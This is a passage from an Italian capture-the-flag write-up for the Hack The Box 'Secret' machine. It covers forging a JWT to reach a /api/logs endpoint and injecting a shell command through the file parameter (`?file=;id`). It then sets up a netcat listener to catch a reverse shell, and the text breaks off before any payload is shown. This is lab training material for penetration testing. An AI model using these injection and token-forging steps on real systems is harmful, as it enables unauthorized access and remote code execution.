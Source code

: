 ```bash
┌──(kali㉿kali)-[~/htb/secret/local-web/routes]
└─$ ls
auth.js  forgot.js  private.js  verifytoken.js

┌──(kali㉿kali)-[~/htb/secret/local-web/routes]
└─$ cat verifytoken.js
const jwt = require("jsonwebtoken");

module.exports = function (req, res, next) {
    const token = req.header("auth-token");
    if (!token) return res.status(401).send("Access Denied");

    try {
        const verified = jwt.verify(token, process.env.TOKEN_SECRET);
        req.user = verified;
        next();
    } catch (err) {
        res.status(400).send("Invalid Token");
    }
};

```

Bene abbiamo tutte le informazioni necessario per crearci il nostro JWT dannoso.

# GAINING AN INITIAL FOOTHOLD 

Per creare il nostro JWT utilizzeremo il sito [Jwt.io](https://jwt.io)

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/secret2.png)

Una volta craftato il nostro JWT apriamo [BurpSuite](BurpSuite) e intercettiamo una chiamata all'endpoint vulnerabile `/api/logs` che abbiamo trovato prima nel commit e ci aggiungiamo il nostro JWT token
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/secret3.png)
Abbiamo effettuato l'accesso a /api/logs con successo, ma il server ha risposto con un errore 500 Internal Server Error. A giudicare dall'output della pagina abbiamo riscontrato un errore perché non abbiamo specificato un file con il parametro file GET. Come abbiamo scoperto, il parametro file è vulnerabile all'iniezione di comando, quindi proviamo una semplice iniezione di comando `?file=;id` per verificare che l'iniezione funzioni.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/secret4.png)

Perfetto, abbiamo l'output del comando sulla risposta del server, siamo l'utente dasith. Ora possiamo provare a ottenere una shell inversa. Innanzitutto, impostiamo nc sulla nostra macchina.

```bash
┌──(kali㉿kali)-[~/htb/secret]
└─$ nc -lnvp 443
listening on [any] 443 ...
```
